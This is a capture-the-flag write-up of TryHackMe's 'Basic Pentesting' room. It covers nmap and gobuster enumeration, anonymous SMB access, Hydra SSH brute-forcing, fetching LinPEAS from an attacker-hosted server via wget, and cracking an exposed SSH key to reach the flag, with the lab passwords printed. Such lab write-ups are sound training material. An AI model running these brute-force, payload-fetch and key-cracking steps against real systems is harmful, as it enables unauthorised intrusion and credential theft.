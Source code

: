 # Basic Pentesting Writeup (TryHackMe)

## Challenge Overview

This challenge simulates a real-world penetration test scenario where the attacker must gain access to a machine through open services, enumerate for sensitive data, and escalate privileges to capture the final flag. It involves techniques like directory fuzzing, SMB enumeration, password brute-forcing, and leveraging exposed SSH keys for privilege escalation.

---

## Enumeration

Started the challenge by running an Nmap scan to enumerate open ports and identify services:

```bash
sudo nmap <target-ip> -sS -T4 -A -oN init_scan
```

![2025-05-06_14-00](https://github.com/user-attachments/assets/9e66d88d-4275-4d90-a383-ad2a8a8c3191)

Discovered a website running on port 80.

## Web Enumeration

Used `gobuster` to find hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-06_14-05](https://github.com/user-attachments/assets/03db77ae-d3b5-4de7-884d-22fe38dfa4e0)

Found the `/development` subdirectory. It contained two `.txt` files that mentioned the development of the website and referenced an SMB share.

![2025-05-06_14-05_1](https://github.com/user-attachments/assets/4a94e1bf-8b4f-49a5-aaf4-79fa1d949960)
![2025-05-06_14-06](https://github.com/user-attachments/assets/42d7e777-72b6-4c88-9318-8bb7b172898a)
![2025-05-06_14-07](https://github.com/user-attachments/assets/bde4d3ef-52b8-45eb-a89f-c80324b11d7c)

## SMB Enumeration

Accessed the SMB share using `smbclient` with anonymous login:

```bash
smbclient -L //<target-ip>
smbclient //<target-ip>/Anonymous 
```

Retrieved a `.txt` file mentioning two users: `jan` and `kay`.

![2025-05-06_14-37](https://github.com/user-attachments/assets/06cb2416-a754-4bd0-89a1-05e7115aced2)

## SSH Brute Force

Used Hydra to brute-force SSH credentials for `jan`:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt <target-ip> ssh
```

![2025-05-06_14-45](https://github.com/user-attachments/assets/f3c9f9f3-ccf8-4e0f-b9e1-5d5fbf368439)

Cracked password: `armando`

## Privilege Escalation (to kay)

After logging in as `jan`, manual enumeration began. Encountered several dead-ends:

* `sudo -l` – no permissions
* Checked SUID binaries – no immediate vector
* `wget` didn't work initially

Found that `/tmp` was writable. Hosted LinPEAS on attacker machine via Python server:

```bash
python3 -m http.server 8000
```

Then on target:

```bash
cd /tmp
wget http://<attacker-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 🗝SSH Key Exploit

LinPEAS revealed an exposed private key in `/home/kay/.ssh/id_rsa`. Copied it and cracked it:

![2025-05-06_15-57_1](https://github.com/user-attachments/assets/b43735a1-b605-45c0-aed9-acc913958d16)

Extracted hash with `ssh2john`:

```bash
ssh2john id_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![2025-05-06_15-57](https://github.com/user-attachments/assets/2f4ef426-9cb5-4277-ac58-e2ef0da54756)

Password: `beeswax`

Used the private key to SSH into kay's account:

```bash
ssh -i /home/kay/.ssh/id_rsa kay@<target-ip>
```

Accessed `pass.bak`:

```bash
cat pass.bak
```

![2025-05-06_15-58](https://github.com/user-attachments/assets/dda629b3-c579-4f68-827d-854b0826680e)

✅ Final flag retrieved.

---

## 🧾 Conclusion

![2025-05-06_15-59](https://github.com/user-attachments/assets/dec757bf-bea6-431b-aebb-d989648cd122)

This room tested core skills in enumeration, brute-forcing, and privilege escalation:

* Gobuster revealed a hidden dev directory
* SMB share exposed usernames
* SSH brute-force using Hydra
* Privilege escalation via exposed SSH key

The challenge emphasized how poor access control, default credentials, and leftover dev artifacts can lead to full system compromise.
